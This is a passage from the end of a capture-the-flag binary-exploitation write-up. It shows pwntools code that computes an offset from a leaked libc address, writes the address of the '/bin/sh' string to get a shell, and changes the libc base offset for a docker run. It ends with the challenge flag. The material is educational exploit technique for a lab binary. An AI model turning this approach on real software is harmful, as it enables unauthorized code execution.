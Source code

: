 For this stage, we just do the same as stage 2:

```python
offset = int(((libc.sym['_IO_2_1_stdin_'] + 72) - libc_leak) / 8)
value = next(libc.search(b'/bin/sh'))
p.sendlineafter(b'offset:', f'{offset}'.encode())
p.sendlineafter(b'value:', f'{value}'.encode())
```

Run again whole script and we can get the shell when running locally. You now can try with docker but remember to change the libc base calculation (I dunno why does it happen) from:

```python
libc.address = libc_leak - 0x5f4010    # Not docker
```

To

```python
libc.address = libc_leak - 0x5f2010    # When connect to docker
```

Full script: [solve.py](solve.py)

# 4. Get flag

![get-flag.png](images/get-flag.png)

This is a flag I created for fun =)))

`JHT{H3_hE_y0U_M@d3_1T_7b1d0e66e0e68b37367b20e01405a893}`